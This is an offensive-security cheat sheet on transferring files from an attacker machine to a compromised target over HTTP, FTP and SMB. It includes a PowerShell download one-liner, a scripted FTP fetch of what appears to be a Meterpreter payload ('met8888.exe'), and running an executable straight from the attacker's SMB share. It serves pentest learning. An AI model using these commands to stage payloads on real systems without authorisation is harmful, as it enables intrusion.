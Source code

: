 # File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

### <span style="color:green">HTTP</span>

**On attacker machine**:

#### <span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


#### <span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

### <span style="color:green">FTP</span>

#### vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

#### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">your_ip_address</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 

### <span style="color:green">SMB</span>

**On attacker machine**:

> smbserver.py shareName sharePath 
> (e.g. smbserver.py TMP /tmp)

Check with smbclient
> smbclient -L \[your ip address\] --no-pass

**On target machine**:
or check on Windows
> net view \\\[attack machine ip address\]

Copy file 
`copy \\\[your ip address\]\Sharepath .`

Or execute the file directly from SMB
`\\\[your ip address\]\file.exe`


